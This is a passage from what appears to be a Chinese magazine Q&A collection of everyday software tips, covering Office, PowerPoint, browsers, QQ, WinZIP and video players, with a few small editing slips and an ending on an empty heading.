问：我经常从网上复制一些排列为表格的内容，通常会执行选择性粘贴命令，将它们以纯文本的形式粘贴到Word文档中进行编辑排版，这样的复制方法会丢失原来的表格结构，如果手动建立一个表格再进行数据输入又太麻烦。请问有没有更好的办法？

答：其实你完全可以先将表格中的文字粘贴到Word中，再将其转换成表格。具体操作步骤如下：

(1) 将网页中的文字无格式粘贴到Word 2007中，调整好格式，然后用鼠标拖黑选中要建立成表格的文字。
(2) 依次选择“插入→表格→文本转换成表格”命令，再根据具体文本内容和自己的需要设置表格的列数。
(3) 然后将表格“自动调整”操作设置为“根据内容调整表格”，并选择“文字分隔位置”为空格。最后单击“确定”按钮，这样就可以快速恢复表格状态了。

## 用Word将WPS文件中的图片提取出来

问：有一篇使用WPS制作的文档，里面插入了大量的图片，现在想将这些图片提取出来，请问如何操作才能实现？

答：可以用Word 2007将这个文件打开，然后在Word中使用“另存为”功能将它导出为网页，在此网页文件同目录将会有一个文件夹，所有的图片便被自动提取到这个文件夹中了。

## Word 2007中空格变成小圆点了

问：我在Word 2007中按空格键时就会出现一个一个小圆点。请问如何解决这个问题？

答：你可以采用如下步骤解决问题：
(1) 首先启动Word 2007，用鼠标选择“Office按钮”。
(2) 在出现的菜单中打开“Word选项”，单击左侧的“显示”命令。
(3) 然后将“显示所有格式标记”前面的对钩去掉即可。

## Word文件格式转换成PDF格式

问：因为工作需要，我要把Word文档转换成PDF格式。请问如何才能实现？

答：你可以采用如下步骤解决问题：
(1) 安装Acrobat（不只是Reader）完全版，完全版里含有PDFMaker工具。
(2) 随后在Word的工具栏中会出现一个Adobe PDF工具列，下拉菜单里面会有Convert to Adobe PDF按钮，选择这个转换命令就行了。

## Word 2003提示Normal.dot错误

问：一次正在用Word 2003编辑文件时，突然停电了，现在每次关闭Word时都会出现Normal.dot错误。请问该如何解决这个问题？

答：Normal.dot是Word的模板文件，出现的问题可能是因为运行Word时突然断电导致模板文件损坏所致。你可以将系统中的Normal.dot文件备份一下，然后从别的安装了同一版本Word的系统中将Normal.dot复制出来，并覆盖你的系统中的该文件，这样应该可以解决问题。

## PDF文件格式转换成Word格式

问：我想把PDF文件格式直接转成Word格式或者TXT纯文本格式。请问有什么办法？

答：你可以从网上下载一款名为ScanSoft PDF Converter for Microsoft Word的转换软件，该软件可以帮助你通过Word直接将PDF文件转换为Word文件，并且完全保留原来的格式和版面设计。转换的步骤是：在Word的菜单中选择“文件”项，然后选择“打开”命令来打开一个PDF文件。这时ScanSoft PDF Converter for Microsoft Word的插件会自动弹出，选择转换后你就可以得到想要的Word文件了。如果只需转换成TXT文档，那么在PDF中直接转换就可以了。

## Word文档显示图片不再延时

问：我在处理含有大量图片的Word文档时，发现在文档中翻到有图片的那一页时，总是要等上一阵才能显示出来，非常耽误时间。请问能否让这些图片快一些显示出来？

答：有一个非常简单的方法可以加快文档图片的显示：在每次打开带有多张图片的文件时，首先用鼠标点击一下“工具栏”上的“打印预览”按钮，然后再马上关闭打印预览，此时再翻页就不会出现图片半天显示不出来的问题了，基本上感觉不出有任何延迟。

## 轻松解决TXT文字乱码问题

问：我从网上下载的一些TXT文件在本地电脑上打开的时候，内容显示为乱码。请问这是怎么回事呢？

答：这些字符是繁体中文，它的文字编码在简体中文的操作系统中找不到对应的字符集，所以显示为乱码。
如果你的电脑中装有Word 2003以上的版本，可以轻松解决此问题。
(1) 运行Word，然后选择“文件→打开”菜单，选择你要打开的TXT文件。这时，Word会提示你这个文档的文字采用的编码方式以及采用什么样的编码打开文件能够正常显示。我们在此选择“其他编码”中的“繁体中文（BIG5）”，在下面的预览窗口中，就可以看见正常的繁体中文显示了。
(2) 点击“确定”按钮，即可将这篇TXT文件用Word打开，并以繁体中文显示。
(3) 如果觉得繁体中文显示不太方便阅读的话，点击“工具→语言→中文简繁转换”，选择“繁体中文转换为简体中文”，这样即可得到简体中文的文档。
(4) 为了方便以后阅读，可以将转换好的文件保存。如果要保存为TXT文件，可以采用“复制”再“粘贴”的方式保存。也可以直接把转换好的文件保存为“.DOC”格式。

## 没有现成的带圈大数字怎么办

问：平时用Word 2003为公司编辑文件或者产品说明书时，我很喜欢用带圈字符作为页码修饰方式。但是，在“插入→数字”中选择带圈字符时，大于10的数字无法作为带圈字符插入到文档中。但我们的产品说明书动辄上百页，要将页码全设置为带圈字符却无法实现。请问如何才能解决这个问题？

答：你可以通过如下步骤解决问题：
(1) 在Word 2003菜单栏中依次选择“格式→中文版式→带圈字符”。
(2) 在文字中输入10，并选择“增大圈号”的样式，然后“确定”。
(3) 选中⑩，单击鼠标右键，选择“切换域代码”，这时⑩就变成了代码“{ eq \o\ac(○,10)}”，把其中的10改为100，并在代码上点右键，选择“切换域代码”，并且再次“增大圈号”，即可得到带圈的100了。

## 改错了没关系，Word后悔药可以起死回生

问：我用Word 2003为单位起草文件时总是写了删，删了又写，有时候将一段文字删去了，存盘退出之后又后悔。想把这段文字找回来时“恢复”命令已无效。请问如何才能恢复原来错改的内容？

答：Word修订功能就是最好的后悔药。起草文件之前，在菜单栏依次点击“视图→工具栏→审阅”，然后点击“修订”按钮，Word 2003的修订功能就被打开了。然后你只管删了写，写了改，“保存”后退出也不怕了。当你再次打开文档，在“审阅”工具栏最左侧的下拉菜单中选择“显示标记的最终状态”，就能看到你之前删除的内容了。如果想恢复某个被删除的部分，只要在该部分上右击，选择“拒绝删除”即可。

## Word中的选择性粘贴有什么用

答：我在使用Word时经常用到“粘贴”功能，但发现还有一个“选择性粘贴”功能。请问这种粘贴有什么用处呢？

选择性粘贴有很多特殊的作用，举例如下：

- (1) 粘贴链接
  当我们需要从一个Excel工作表复制大堆数据到另一个工作表时，使用“选择性粘贴”链接，可以让后者的数据跟随前者数据同步更新。步骤如下：选择要复制的数据→选择“复制”命令→在新的工作表中选择存储位置的第一单元格→选择“选择性粘贴”命令→点击“粘贴链接”按钮。
- (2) 进行算术运算
  当我们需要把两列数据进行算术运算，并且用结果直接替换其中的一列数据时，用“选择性粘贴”就比使用函数方便多了。步骤如下：选择第一列数据→选择“复制”命令→选择第二列数据→选择“选择性粘贴”命令→点击“乘”选项→点击“确定”。
- (3) 行、列交换
  日常工作的时候，经常遇到要把行、列交换的，用“选择性粘贴”非常方便。步骤如下：选择要交换的数据→选择“复制”命令→选择要放置数据的第一单元格→选择“选择性粘贴”从弹出的对话框中选择“转置”按钮。单击“确定”即可，这样就把行、列的位置交换了。
- (4) 下载资料
  在网上搜集资料时，很多网页有表格，用“选择性粘贴”可以直接把表格去掉。步骤如下：选择要复制的文字→选择“复制”命令→打开Word 2003→选择“选择性粘贴”→选择“无格式文本”→单击“确定”。

## Excel中用数据有效性限制重复数据录入

问：在Excel中录入数据时，有时会要求某列或某个区域的单元格数据具有唯一性，如身份证号码、发票号码之类的数据。但我在输入时有时会出错致使数据相同，而又难以发现。请问如何才能避免这个问题？

答：你可以通过“数据有效性”来防止重复输入。例如要在B2:B200来输入身份证号，可以先选定单元格区域B2:B200，然后单击菜单栏中的“数据→有效性”命令，打开“数据有效性”对话框，在“设置”选项下，单击“允许”右侧的下拉按钮，在弹出的下拉菜单中，选择“自定义”选项，然后在下面“公式”文本框中输入公式“=COUNTIF($B$2:$B$200,$B2)=1”（不包括引号），选“确定”后返回。

以后再在这一单元格区域输入重复的号码时就会弹出提示“输入值非法”的对话框了。

## 数字前有“0”也能算

问：在Excel 2007“单元格格式”设置框中，将数字格式设置为文本时，可以在单元格输入前面有“0”的数字，但这样输入的数字不能进行计算。请问如何才能解决这个问题？

答：你可以采用下面的方法输入能计算的数值：选中单元格，点击“格式→单元格”，单击“数字”标签，在左边的“分类”中选择“自定义选项”，在右边的“类型”中选择“0”，这时“类型”编辑栏中出现“0”。根据自己要在单元格中输入的位数，如“00001”5位，在编辑栏中输入5个0，点击“确定”后，在单元格中就可以输入前面有“0”并可以计算的数字了。

## 如何在输入的数字自动加上小数点

问：当我在Excel工作表中输入既有数字又有汉字的数据时，要不断地切换中英文输入方式，这不仅降低了输入效率而且还会出现忘记切换而误将小数点输成句号的情况。请问如何解决这个问题？

答：其实你可以通过设置工具选项来实现让单元格中的数字自动加上小数点，步骤如下：

（1）单击菜单栏中的“工具→选项”命令，打开“选项”属性对话框。

（2）单击“编辑”选项卡，并勾选“自动设置小数点”复选框，然后在位数框中输入小数位数（可以根据保留小数位数来确定，一般为2位），最后单击“确定”按钮。

进行了如上设置之后，现在再在单元格中输入数值如“1234”，我们按回车后，它就会自动变为“12.34”，小数点就被自动加上了。

> **小提示**
>
> “自动设置小数点”选项只对进行了该设置之后输入的数字有效，在设置之前输入的数字不受影响。若要暂时取消“自动设置小数点”选项，可在输入数字时键入小数点。当你在需要的工作表中输入完毕后，一定得记得将“自动设置小数点”选项清除，否则以后输入的数值都会自动加上小数点的。

## Excel中不连续单元格快速输入相同内容

问：在Excel软件中输入信息的时候，如果是连续的单元格可以通过拖动填充柄的方法快速输入相同或者有规律的数据。如果单元格不连续，填充的方法就无能为力了，一个一个输入则非常麻烦。请问有没有更简单的方法？

答：有一个比较简单的方法，步骤是：首先按住Ctrl键，同时点击鼠标左键选中输入内容相同的所有不连续的单元格，然后敲击键盘输入单元格中的内容，最后按下“Ctrl+Enter”组合键，选中的所有单元格都会填充为用键盘输入的内容。

## 防止Excel表格中的公式被别人改动

问：我在公司中负责制作财务报表，将报表交给其他部门填写数据时，里面的计算公式常常被搞得面目全非。请问有没有办法能够让这些公式不被修改？

答：你可以采用如下步骤保护这些公式不被更改：

（1）打开报表文件，在工作表左上角行、列交汇处单击鼠标左键，选定整个工作表。

（2）打开“单元格格式”对话框，进入“保护”标签，清除“锁定”前面复选框中的选中对钩，解除对整个工作表的锁定。

## 隐藏Excel中的数据不成功

问：在对Excel工作表中的数据进行分类汇总后，很多时候我只需要汇总的结果而不需要原先参与汇总的数据。我首先通过“分级显示”设置将汇总后的结果显示到2级，也就是将参与汇总的数据隐藏起来，然后选择并复制汇总数据。可我将汇总数据粘贴到其他工作表后，却发现原来隐藏的参与汇总的数据也被复制过来并显现出来。请问这该怎么办呢？

答：要想解决该问题，你可以重新进行如下操作：

- 1. 将汇总后的结果显示到2级。
  - 对Excel 2003来说，用鼠标选择“编辑”菜单，单击“定位”命令，然后选择“定位条件”项，选中其中的“可见单元格”复选框，最后单击“确定”按钮即可。
  - 对Excel 2007来说，用鼠标选择左上角的“开始”按钮，在“编辑”组中单击“查找和选择”项，然后单击“定位条件”，选中“可见单元格”复选框，最后单击“确定”按钮即可。
- 2. 将选中内容复制并粘贴到新工作表中。
注：上面的步骤也可以用组合键来代替，即Alt+;（分号）键，因为该组合键的作用即是只选取当前区域中的可见单元格。

## 快速精确调整Excel表格宽度

问：我在一个Word文件中绘制了一个表格，为了调整表格中的单元格宽度，就将鼠标移至单元格缝隙处按下鼠标左键，当双向光标出现时就可以调节单元格宽度了，但调整的过程中有时却总是差那么一点点无法与其他单元格对齐。请问如何解决这个问题？

答：你可以在按下鼠标左键进行宽度调整的同时按下Alt键，这样则可进行小尺寸的精确调整。

## 将Excel的菜单和工具栏恢复为初始状态

问：我无意间搞乱了Excel应用程序中的菜单和工具栏，可能是调整了菜单项的位置，禁用了一些菜单项而又未恢复，删除了一些菜单项等。请问如何才能将菜单和工具栏恢复为初始的状态？

答：想要将Excel菜单和工具栏恢复为默认状态，可以采用删除*.xlb文件的办法。Excel将工具栏和菜单栏的配置存储在*.xlb文件中，当你改变工具栏和菜单栏并退出Excel时，当前的配置将会被保存到xlb文件。这个文件的位置是在C:\Documents and Settings\<用户名>\Application Data\Microsoft\Excel文件夹中，其中<用户名>代表你登录操作系统时使用的的登录名。对于Excel 2003来说，该文件名为Excel11.xlb；如果是Excel 2007，文件名为Excel12.xlb。需要注意的是，通常情况下，该文件夹的属性是隐藏的，需要设置为可以显示。具体的操作步骤如下：

- 1. 在“我的电脑”的菜单栏中选择“工具→文件夹选项”。
- 2. 在“查看”项下的“高级设置”窗口中，选中“显示所有的文件和文件夹”并单击“确定”按钮保存。
- 3. 进入上述文件夹并且删除Excel11.xlb文件。
- 4. 重新启动Excel 2003，此时Excel 2003会自动重新生成新的Excel11.xlb文件，此时菜单和工具栏就恢复为初始状态了。

## PPT部分

## 知识问答倒计时轻松做

问：如今各种各样的群众性知识竞赛在企业、社区开展很普遍。一般来说这种小规模比赛没有能力去设计专业的答题倒计时程序，所以很多时候主持人不得不用秒表计时。请问有什么简单方法能制作出倒计时？

答：其实用PowerPoint就可以把答题倒计时效果轻松做出来，步骤如下：

- 1. 输入知识竞赛的标题、题目和选项并设置好格式。
- 2. 制作倒计时所需的对象：制作10个艺术字，分别是1、2、3、4、5、6、7、8、9、10，再给它们设置相同的颜色、大小和位置，再制作一个艺术字对象“Time is up”并设置其颜色、大小和位置。
- 3. 给倒计时设置动画效果：打开“自定义”任务窗格，按“10、9、8、7、6、5、4、3、2、1、Time is up”的顺序给11个艺术字对象设置不同的动画效果：10——“出现”，9~1——“渐变”，Time is up——“渐变”。
- 4. 设置对象动画的开始时间：由于数字10是幻灯片启动时随着题目的出现而出现的，而数字9~1和Time is up都是在前一个对象出现后自动出现，所以给它们设置动画开始时间为：10——“之前”，9~1——“之后”，Time is up——“之后”。
- 5. 设置对象动画的速度：因为是倒计时器，所以它们的速度都是“快速”，即1秒钟。
- 6. 设置对象动画播放后的效果：如果倒计时的每个数字显示后不消失，屏幕上将会很混乱，所以后一个数字显示之前，前一个数字必须消失。我们通过为每个倒计时对象设置动画播放后的效果来达到这一目的，10~1——“播放动画后隐藏”、“Time is up”——“下次单击后隐藏”。
- 7. 按Time is up、1、2、3、4、5、6、7、8、9、10的先后顺序依次将它们重叠放在一起。
- 8. 制作正确答案的文本：插入一个文本框，例如输入“B.美国”，将它的字体、大小设置成和竞赛题目的选项文本字体一样的字体和大小（可用格式刷），再将其字体颜色设置为红色，文本框背景颜色设置为白色，拖动它使其覆盖在原有的选项文本上。最后为它设置动画效果：动画效果为“百叶窗”、开始时间“单击时”，速度“非常慢”。

## 在PowerPoint中“揪出”上下标

问：我在Word中经常要使用上下标，可是转到PowerPoint中就再也找不到它们的影子了，因此在输入化学方程式的时候很是苦恼，还得用“插入”中的“公式”来实现，很麻烦。请问如何将上下标从隐藏处揪出来？

答：你可以通过如下设置解决问题：

- （1）点击“工具栏选项→添加删除按钮→自定义”。
- （2）选择“命令”标签，类别选择“格式”再点击“重排命令”按钮。
- （3）选中“工具栏”，点击下拉框选中“格式”，再点击“添加”按钮，在弹出的添加命令类别中选择“格式”，命令中选择“上、下标”，点击“确定”，这样在“工具栏”上会出现“上、下标”选项。

## PPT文字旋转特效轻松做

问：请问如何让自己的PPT课件的文字旋转起来？

答：你可以通过如下操作实现：

- （1）设计环绕文字
  启动PowerPoint 2003，新建PPT文档，将已有的两个文本框删除，点击右键选择“背景”，选择一张图片作为幻灯片的背景。单击“插入→图片→艺术字”命令，选中第一行的第三种艺术字样式，“确定”后在“编辑‘艺术字’文字”对话框中输入课件的标题（如“美丽的祖国山河”），接着选择自己喜欢的字体，单击“确定”按钮，完成艺术字的插入工作。
  用鼠标右键单击幻灯片中的艺术字，选择“显示‘艺术字’工具栏”，单击“艺术字形状”按钮，选择“细环形”，这时幻灯片中的艺术字就围绕成一个圆形了，再次用右键单击幻灯片中的艺术字，选择“设置艺术字格式”，切换到“颜色和线条”选项卡，设置好艺术字的颜色；最后调整好幻灯片中艺术字的大小及位置，使之整齐美观。
  单击“绘图”工具栏“自选图形”右边的下拉箭头，选择“星与旗帜→十六角星”，在幻灯片的正中央插入一个十六角星，右击幻灯片中的十六角星，选择“设置自选图形格式”，切换到“颜色和线条”选项卡，设置好填充色和线条的颜色，最后调整幻灯片中艺术字和十六角星之间的位置关系，使之看起来更协调、更美观。
- （2）添加旋转动画特效
  先选中幻灯片中的艺术字，然后选择菜单中的“幻灯片放映→自定义动画”命令，打开“自定义动画”面板，接着单击该面板中的“添加效果”按钮，选择“强调→陀螺旋”，为艺术字添加一个陀螺旋动画特效，最后将“自定义动画”面板中的“开始”参数设置为“之前”、“速度”参数设置为“非常慢”。
  选择要编辑文字旁边的下拉箭头，选择“效果选项”，切换到“效果”选项卡，勾选“平稳开始”、“平稳结束”和“自动翻转”这三个复选框，再切换到“计时”选项卡，单击“重复”右边的下拉箭头，选择“直到幻灯片末尾”，最后单击“确定”。

> 小提示
> 按照前面的方法，给幻灯片中的十六角星也添加一个陀螺旋动画特效，不过稍有不同的是将十六角星陀螺旋动画特效的“数量”参数设置为“360°逆时针”，单击“重复”右边的下拉箭头，选择“直到下一次单击”。

经过以上步骤的操作，PPT中的文字旋转特效就已经大功告成了，按下“F5”快捷键，就可以预览到最终的效果了——艺术字不停地顺时针旋转，而十六角星则不停地逆时针旋转。

## 妙用格式刷快速同步格式

问：在Office中，我经常会使用格式刷统一文档中的文字和段落格式，避免大量的重复性操作，大大提高工作效率。请问格式刷能否对图片、图形以及Excel单元格、PowerPoint幻灯片背景进行快速同步？

答：可以，下面以Office 2007为例，介绍这些方法的应用：

- （1）统一图片和图形格式
  一篇文档中如果有很多图片或图形，为了美观，通常会将它们设置为一种格式，一个一个地设置势必会浪费很多的时间，这时不妨使用格式刷进行图片或图形的快捷同步。
  在Office中，你可以使用“开始”选项卡下“剪贴板”功能区的“格式刷”按钮来同步文本格式和一些基本图形、图片格式，如边框和填充以及图形样式。具体的操作步骤如下：
  第一步：以Word 2007为例，选择要复制格式的图片或图形。
  第二步：在“开始”选项卡上的“剪贴板”功能区中，单击“格式刷”按钮，此时鼠标指针变为画刷图标。
  第三步：使用鼠标单击选择要设置格式的图片或图形，即可将该图片或图形同步为一种格式。

> 小提示
> 在Office中如果你想更改文档中的多个选定内容的格式，可双击“格式刷”按钮，选择要设置格式的图片或图形，要停止设置格式，可按“Esc”键。

- （2）使用格式刷复制复杂表格
  一份复杂的工作表虽然各单元格的表格线不同、有合并单元格存在、有空行存在等，但是其基本的格式没有改变，你可以使用格式刷对合并、拆分的单元格等进行快速复制，将复杂的工作表的轮廓提取出来。其具体的操作步骤如下：
  第一步：以在Excel 2007中复制课程表的整个的表格为例，打开课程表所在的工作表。
  第二步：选中课程表表格所在区域，单击“开始”选项卡下“剪贴板”功能区中的“格式刷”按钮（如果想要进行连续操作可双击“格式刷”按钮），这时鼠标的指针变为按钮。
  第三步：在工作表中找一块空白区域，将鼠标拖拉即可将课程表的格式复制过来。
- （3）使用格式刷为多张幻灯片着色
  在PowerPoint中，由于每张幻灯片要着色的方案基本相同，如果采用一个一个地为它们重新着色的方法实在太麻烦了。因此你可以使用格式刷快速地为多张幻灯片着色，不管幻灯片的背景是纯色还是纹理、图片都可。具体的操作步骤如下：
  第一步：以PowerPoint 2007为例，打开演示文稿，右键单击某个幻灯片，在弹出的快捷菜单中选择“设置背景格式”命令，在打开的“设置背景格式”对话框中设置幻灯片的背景格式，纯色、纹理、图片都可。
  第二步：在任务窗格中的“幻灯片”选项卡下选择一个已经着色的幻灯片。双击“开始”选项卡下“剪贴板”功能区中的“格式刷”按钮，此时鼠标指针旁多了一个格式刷的图标（只在“幻灯片”选项卡中显示）。
  第三步：在任务窗格中的“幻灯片”选项卡中单击需要着色的幻灯片缩略图即可。

## 一张纸上打印多幅幻灯片

问：我想将制作好的PowerPoint幻灯片打印出来，但往往一张纸只能打印出一幅幻灯片，实在太浪费了。请问怎样才能在一张纸上打印出多幅PowerPoint幻灯片呢？

答：你可以采用如下操作步骤解决问题：

- （1）打开“打印”对话框
  对于PowerPoint 2003来说：在菜单中依次选择“文件→打印”命令。
  对于PowerPoint 2007来说：单击Office按钮，再依次选择菜单中的“打印→打印”，或者直接按下Ctrl+P组合键。
- （2）设置多帧打印
  将“打印内容”一栏中的参数设置为“讲义”，然后再设置一下右边的其他参数，如每页打印幻灯片数，打印顺序，是否加框等，右边有小图预览打印排列效果，设置好之后，单击“确定”按钮即可打印。

## 在PowerPoint里改变公式的颜色

问：我在PowerPoint中输入的公式的颜色是黑色的，而PowerPoint本身又有背景颜色，有时候公式就看不清楚了。请问如何解决这个问题？

答：你可以直接改变公式本身的颜色，具体操作步骤如下：

- （1）用鼠标右键单击该公式，在弹出的右键菜单中选择“设置对象格式”。
- （2）在出现的对话框中选“图片”，接着单击“重新着色…”按钮。
- （3）随后会出现“图片重新着色”对话框，把公式原始的黑色更改为所需的颜色后，单击“确定”按钮即可。




## 用WinAVI把RMVB转换成AVI百分百成功的方法

问：我在用WinAVI这款视频转换软件将RMVB文件转换成AVI文件时，发现大部分文件都能成功转换，但有时部分文件却无法转换完成，表现为转换到某百分比后，进度条不再前进，显示的转换帧率减至10fps以下（正常值在100fps以上）。请问有什么解决办法？

答：其实你可以在“Any to AVI”对话框中选择输出格式“User-defined”，再点击“高级”按钮，将编解码器处的音频编码器由“ZJMedia Mp3 Encoder”改为“ZJMedia Mp2 Encoder”，确认后再进行转换，原来不能完成转换的文件现在就可以顺利完成了。

## 快速输入偏旁部首

问：请问有什么办法能快速输入偏旁部首？

答：在任意文字编辑环境下，切换到“全拼”输入法，直接键入“偏旁”，这时汉字所有的41个部首就出现了，这样就不用再借助WPS或Office等，可在其他编辑环境下轻松输入偏旁部首。

## 让不受欢迎的QQ用户闭嘴

问：最近我将一个不受欢迎的QQ用户加入到黑名单中，但是他仍然能够通过一些手段发送消息给我，有没有办法让他的消息被完全屏蔽呢？

答：遇到这种QQ用户可以通过如下步骤解决问题：

- （1）在QQ主窗口空白处，单击右键，单击快捷菜单中的“添加组”，然后将新建组命名为“屏蔽组”。
- （2）将“黑名单”中的人拖放到“屏蔽组”。
- （3）在QQ主窗口，单击“信息管理器”按钮。
- （4）在“所有分组（QQ好友）”下，单击“屏蔽组”，然后在右侧窗格中，选中“阻止消息”下的复选框。以后，不管这些Q友再怎么向你发送信息，你就都收不到了。

## 在IE7中直接查看星号密码

问：当我在上网冲浪的时候，很多时候都需要提交星号形式密码，比如登录Web邮箱和论坛，或者填写一些注册信息，如果我选择了默认保存的话，时间长了就会忘记密码。请问有什么解决办法？

答：如果使用的是IE7并且安装了IE7 Pro 2.1 RC1（下载地址：http://dl.ie7pro.com/ie7pro/beta/IE7ProSetup_2.1-RC1.exe），那么就可以直接查看。

首先在设置窗口中勾选“Show Password on MouseOver”这一项，单击“确定”后退出。以后在密码文本框中输入完后，将鼠标置于文本框中即可显示出密码了。

## 随时随地查生字

问：我上网时经常会遇到不认识的生字，利用Google、百度等进行搜索感觉很麻烦。请问有没有更简单的方法？

答：访问http://www.zdic.net/tools，在这里找到“选字释义工具”下的“选字释义”链接，右击选择“添加到收藏夹”，或者直接拖曳到工具栏上，对于IE7而言，那么只能使用前面一种方法，添加或拖曳成功之后，收藏夹或工具栏中会出现相应的项目。（如图）

以后，当你浏览网页时遇到不认识的生字或需要查询具体含义的字，首先请执行收藏夹中的“选字释义”，或者单击工具栏上的“选字释义”按钮，此时页面右上角会出现“选字释义已启用”的提示，现在我们只需要拖曳选中或者直接双击相关的汉字，很快就会在页面中出现一个浮动框显示注音和字义。



## 让Firefox快速用上IE收藏夹

问：从IE切换到Firefox，第一件事情就是要将自己的IE收藏夹导入到Firefox中，但是如果IE收藏夹中的文件一多，Firefox往往在导入时会死机。请问如何解决这个问题呢？

答：你完全可以通过下面的方法来让Firefox快速用上IE收藏夹：打开IE，然后选择“文件→导入和导出”，在打开窗口中单击“下一步”按钮，在打开窗口中选择“导出收藏夹”，再单击“下一步”按钮，选择欲备份的文件夹，顺着向导把收藏夹内容导出为bookmark.htm文件。

接下来，打开C:\Documents and Settings\用户名\Application Data\Mozilla\Firefox\Profiles文件夹下的诸如3tt0cbzk.default子文件夹，删除其中的bookmarks.html文件。再将上述导出的bookmark.htm文件重命名为bookmarks.html。重新启动Firefox可以看到IE的收藏夹。

## 高效工作 邮件拒绝重复

问：在OE中经常会收到一些相同的邮件，即在信箱中存在两封完全一样的信件。这样不仅占用空间，而且会给我处理信件带来麻烦。请问如何解决这个问题？

答：其实，这种情况一般发生在Hotmail或IMAP账户中，同时你又将这些邮箱设置为了默认账户。要解决这个问题，只要进入OE，然后选择“工具→选项”，再取消“常规”标签下的“启动时，直接转到收件箱文件夹”和“启动时发送和接收邮件”项。如果已经存在重复的邮件，只要选择“工具→同步账户”或“全部同步”即可。

## 修复拖进度条无效的影片

问：我刚下完的一部电影，用播放器进行播放时，进度条在某一位置却无法正常进行拖动。请问这是怎么回事？

答：这主要是因为该电影文件遭到损坏而引起的，为了避免浪费时间重新去下载，你可以借助一款名为DIVX AVI ASF WMA RM RMVB修复器的软件进行修复。问题一般都能迎刃而解。

步骤一：打开主界面，首先单击左上方的“添加文件”按钮，从系统中导入需要进行修复的影片，目前该软件支持对DIVX、AVI、ASF、WMV、WMA、RM、RMVB等文件格式的修复；

步骤二：导入完毕了，将下方“自动备份”一项复选框勾中，要注意的是，由于技术原因，目前该软件只能对ASF、WMV、WMA文件进行自动备份，如果修复的是其他格式文件，为了防止遭到意外损害，请大家自行备份。以上步骤都完成之后，最后点击“修复文件”按钮，稍等片刻，文件就修复完成了。回过头再播放看看，进度条是不是已经可以正常拖动了。

## IE7中文搜索乱码不再来

问：IE7浏览器支持地址栏搜索，不过IE7的默认搜索程序是Live搜索，我将它换成了百度搜索，但这样做出现了一个问题，在地址栏搜索中文时，搜索结果页会出现乱码。请问如何解决这个问题？

答：在对IE7设置百度搜索时，只要在搜索URL中添加一个参数，就可以解决中文搜索乱码的问题。正常获取的百度搜索URL是“http://www.baidu.com/s?wd=TEST”，在此URL后面加一个参数“&ie=utf-8”（此参数的作用是指定IE以utf-8编码来传送搜索内容）。点击IE7工具栏上的搜索框最右边的向下箭头，选择“查找更多提供程序”，接着在URL框中输入“http://www.baidu.com/s?wd=TEST&ie=utf-8”（注意TEST为大写）”，在名称框中填写“baidu”，点击“安装”，在随后弹出的对话框中勾选“将它设置为默认搜索程序”，最后点击“添加提供程序”。此后，在IE7地址栏输入中文内容后回车，出现的搜索结果页就不会有乱码了。

## 将杀毒软件嵌入WinZIP

问：我有时需要从网上下载压缩文件，大多是ZIP格式的，但由于目前病毒横行，对这些文件总有些不放心。请问能否对这些下载的文件单独进行杀毒操作？

答：你可以通过如下设置达到目的：

- 1. 启动WinZIP后，在菜单中依次选择“选项→配置”命令。
- 2. 在打开的“配置”对话框中选择“程序位置”选项卡，然后单击“可选的病毒扫描程序”下“扫描程序”旁边的按钮。
- 3. 从打开的对话框中选择一个杀毒软件的主文件，如“金山毒霸”、“瑞星”等等，按下最下面的“确定”按钮返回。
- 4. 以后用WinZIP打开一个ZIP文件后，只要按下“Shift+S”组合键或者选择“操作”菜单下的“病毒扫描”命令就可以查杀压缩包文件中的病毒了。注意：虽然在WinZIP中有一个杀毒按钮，但是如果你没有绑定杀毒软件的话，这个按钮是没有作用的。另外，勾选“最小化运行”复选框可以让杀毒软件在后台查杀压缩包中的病毒。

## 保存RM格式影片文件中的某一片断

问：我想保存RM格式影片文件中的某一片断。请问该如何实现？

答：推荐你使用RealProducer这个软件，到华军软件园下载并安装这个软件，启动软件后在菜单中依次选择“File→Edit RealMedia File”，在弹出的窗口中打开RM文件，按屏幕提示进行操作即可。

## 截取RM影片中的图像

问：我在播放RM影片时，非常希望截取其中的某些图像。请问如何才能办到？

答：这很简单，只要在播放时按下Ctrl+G组合键，然后在弹出的对话框中输入文件名和保存路径即可。

到？

答：你可以使用HyperSnap-DX软件，具体的操作步骤如下：

- 启动HyperSnap-DX，然后用鼠标选择菜单中的“Capture→Enable Special Capture”。
- 接着选中以DirectX字样开头的两个选项，然后在播放RM影片时按下Scroll Lock键即可，这样操作后不管在RealPlayer中如何缩放图像，所截取的图像都是原始大小。

### 清除RealPlayer中的播放记录

问：我经常用RealPlayer播放软件播放视频，时间一长发现播放软件的“文件”菜单中留下了很多播放过的视频名字。请问如何才能清除掉在RealPlayer“文件”菜单中遗留下来的这些历史记录？

答：你可以在RealPlayer的“工具”菜单中单击“首选项”，在“常规”标签中单击“清除历史记录”按钮即可。如果不希望下次程序自动记录播放记录，可以取消选择“允许在文件菜单中显示历史记录列表”选项。

### 拖放一个RMVB文件时死机

问：我在用RealPlayer拖放一个RMVB文件时，造成了死机的情况。请问如何才能解决这个问题？

答：这一般是因为媒体文件头损坏造成的问题，你可以用“RM电影修复专家”软件修复无法拖动播放进度的RM视频文件，下载并安装了这款软件后，在需要修复的视频上单击鼠标右键，根据需要在弹出的右键菜单中选择“修复RM电影”或者“重建RM电影索引”即可解决这个问题。

### 通过右键菜单无法启动KMPlayer

问：当我用鼠标右键选择一个声音文件或者视频文件并在弹出的右键菜单中选择“打开方式”后，选择KMPlayer播放软件时没有反应，但如果先启动KMPlayer播放软件，再用KMPlayer打开该文件时就可以播放了。但我用右键菜单选择播放软件的方法用在别的播放软件上都可以正常使用。请问这是怎么回事？

答：是音频、视频文件的格式关联不正常导致的这个问题，也就是说音频、视频文件并没有真正关联到KMPlayer播放软件。你可以启动KMPlayer播放软件，然后在菜单中选择“选项”，接着选择“参数设置”，然后选择“文件关联”，勾选对应的视频、音频格式，单击“确定”按钮后即可解决问题。

### KMPlayer播放时拖动文件总停顿

问：我在用KMPlayer播放软件拖动正在播放的MOV文件时，停顿比较明显。请问如何解决这个问题？

答：你可以在KMPlayer的“参数选项”中选择“滤镜设置”，在其中的Mplayer项内添加 .MOV，同时把QuickTime项内的.MOV删除即可。

### 字幕文件过大无法刻录

问：我想刻录一部带字幕的电影，无奈其Sub字幕文件太大，无法刻录到一张光盘中，不知有没有什么办法缩小Sub字幕文件的大小？

答：在刻录时，你可以事先用压缩软件（例如WinRAR）将其压缩，注意，只压缩Sub文件，而其中的idx文件不能压缩。这样压缩后将它们的文件名设置为一样，就可以直接刻录到同一张光盘中并直接播放了。

### 如何查看图片的原始创建时间

